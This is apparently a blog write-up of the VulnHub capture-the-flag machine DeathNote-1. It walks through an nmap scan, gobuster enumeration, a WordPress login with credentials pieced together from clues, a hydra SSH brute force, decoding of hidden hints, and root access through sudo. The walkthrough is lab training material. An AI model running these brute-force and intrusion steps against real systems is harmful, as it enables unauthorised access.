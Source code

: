 ```yaml
---
title: DeathNote-1 - Writeup
author: Elman Alizadeh
date: 2022-05-15 11:35:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, deathnote]
---
```


Today we will take a look at Vulnhub: DeathNote. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-deathnote/1.jpg" | relative_url }})

## Network scan

Command: Command: sudo nmap -p- -sV -sC -oN nmap/open — open 192.168.0.109

![Desktop View]({{ "/assets/img/vuln-deathnote/19.png" | relative_url }})

## Web pages    

If there is such a problem when looking at the page, do it

![Desktop View]({{ "/assets/img/vuln-deathnote/1.png" | relative_url }})

Command: sudo nano /etc/hosts

![Desktop View]({{ "/assets/img/vuln-deathnote/2.png" | relative_url }})

Result

![Desktop View]({{ "/assets/img/vuln-deathnote/3.png" | relative_url }})

Let’s take notes of everything you need on the page. (name, weird sentence, everything we will use)

```console
kira
light yagami
Soichiro Yagami
```

If we press the hint button, we will come across a sentence.


![Desktop View]({{ "/assets/img/vuln-deathnote/4.png" | relative_url }})

L’s comment is below. let’s note

```console
my fav line is iamjustic3
```

## Gobuster

Find Site Directories

Command: Command: gobuster dir -u http://192.168.0.109 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt

![Desktop View]({{ "/assets/img/vuln-deathnote/5.png" | relative_url }})

Let’s look at the robots.txt extension

![Desktop View]({{ "/assets/img/vuln-deathnote/6.png" | relative_url }})

We found a new directory.

![Desktop View]({{ "/assets/img/vuln-deathnote/7.png" | relative_url }})

.jpg file may be damaged. Let’s download.

Command: wget http://deathnote.vuln/important.jpg

Command: cat important.jpg

![Desktop View]({{ "/assets/img/vuln-deathnote/8.png" | relative_url }})

Indicates that the password will be in the Indian button on the site. So the password is ‘iamjustic3’

The entry can also be ‘kira’ or ‘l’. Let’s check.

## Wordpress

Url- http://deathnote.vuln/wordpress/wp-login.php

user: kira pass: iamjustic3

There is such a .txt file on the media page.

![Desktop View]({{ "/assets/img/vuln-deathnote/9.png" | relative_url }})

Url- http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt

![Desktop View]({{ "/assets/img/vuln-deathnote/10.png" | relative_url }})

They look like a password. Let’s mark it as pass.txt.

Let’s add them to User.txt.

```console
kira
l
light
Soichiro
```

Let’s attack ssh.

## Hydra

Command: hydra -L user.txt -P pass.txt ssh://192.168.0.109 -V -t 4

![Desktop View]({{ "/assets/img/vuln-deathnote/11.png" | relative_url }})

user- l pass- death4me

## Ssh

Command: ssh l@192.168.0.109

![Desktop View]({{ "/assets/img/vuln-deathnote/12.png" | relative_url }})

it was brainfuck

Let’s decode

[BrainFuck](https://www.splitbrain.org/_static/ook/)

![Desktop View]({{ "/assets/img/vuln-deathnote/13.png" | relative_url }})

The /opt folder also has hints that will be useful to us

![Desktop View]({{ "/assets/img/vuln-deathnote/14.png" | relative_url }})

Let’s decode

[CyberChef](https://gchq.github.io/CyberChef/)

![Desktop View]({{ "/assets/img/vuln-deathnote/15.png" | relative_url }})

## Kira

Command: su kira

![Desktop View]({{ "/assets/img/vuln-deathnote/16.png" | relative_url }})

Let’s decode in cyberchef again

![Desktop View]({{ "/assets/img/vuln-deathnote/17.png" | relative_url }})

Let’s look at the / var folder

Command: cd /var

Commdn: cat misa

```console
it is toooo late for misa
```

## Root

let’s check the privileges

Command: sudo -l

```console
(ALL : ALL) ALL
```

This means that we have authority over everything. Let’s root

Command: sudo su

![Desktop View]({{ "/assets/img/vuln-deathnote/18.png" | relative_url }})

### And now we are the root


![Desktop View]({{ "/assets/img/vuln-deathnote/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”










